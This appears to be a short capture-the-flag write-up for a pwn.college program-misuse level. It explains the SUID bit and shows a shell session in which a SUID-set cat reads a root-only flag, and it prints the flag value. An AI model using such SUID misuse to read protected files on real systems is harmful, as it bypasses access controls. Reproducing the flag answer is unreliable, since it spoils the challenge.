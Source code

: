 > [!NOTE]
> What is `SUID`?
> 
> `SUID` stands for set user ID. Every process has a user ID. When the process's `UID` is 0 that means that process is executed by the root user. In this whole module, you will see some command has been `SUID` that means you can run those command using `root` privileges. That means you become a `pseudo-root` for that specific command. That command will treat you as the `root `user.


```bash
hacker@program-misuse-level-1:~$ 
hacker@program-misuse-level-1:~$ ls
Desktop
hacker@program-misuse-level-1:~$ pwd
/home/hacker
hacker@program-misuse-level-1:~$ cd /
hacker@program-misuse-level-1:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-1:/$ file flag
flag: regular file, no read permission
hacker@program-misuse-level-1:/$ cat flag
cat: flag: Permission denied
hacker@program-misuse-level-1:/$ ls -l flag
-r-------- 1 root root 57 Dec 30 16:01 flag
hacker@program-misuse-level-1:/$ which cat
/usr/bin/cat
hacker@program-misuse-level-1:/$ ls -l /usr/bin/cat
-rwxr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
hacker@program-misuse-level-1:/$ sudo cat flag
sudo: /usr/bin/sudo must be owned by uid 0 and have the setuid bit set
hacker@program-misuse-level-1:/$ 
hacker@program-misuse-level-1:/$ 
hacker@program-misuse-level-1:/$ cd challenge
hacker@program-misuse-level-1:/challenge$ ls
babysuid_level1
hacker@program-misuse-level-1:/challenge$ ./babysuid_level1 
Welcome to ./babysuid_level1!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/cat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level1) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cat!
hacker@program-misuse-level-1:/challenge$ 
hacker@program-misuse-level-1:/challenge$ 
hacker@program-misuse-level-1:/challenge$ ls -l /usr/bin/cat
-rwsr-xr-x 1 root root 43416 Sep  5  2019 /usr/bin/cat
hacker@program-misuse-level-1:/challenge$ cat /flag
pwn.college{MqIgJ8DHc0Sn7LGY7bEIjvYWBTd.01M0EDL0AjNzQzW}
```

At first you can see the when I run `cat flag` it says `permission denied`. That means I don't have the necessary privileges to read the file. You can see that if you run `ls -l flag` , only `root` can read the file. 

Now if I run the executable in the `/challenge/babysuid_level1` , then the `SUID` has been set for the `cat` command. The `cat` command will think that I am the `root`. Then I can `cat` the flag.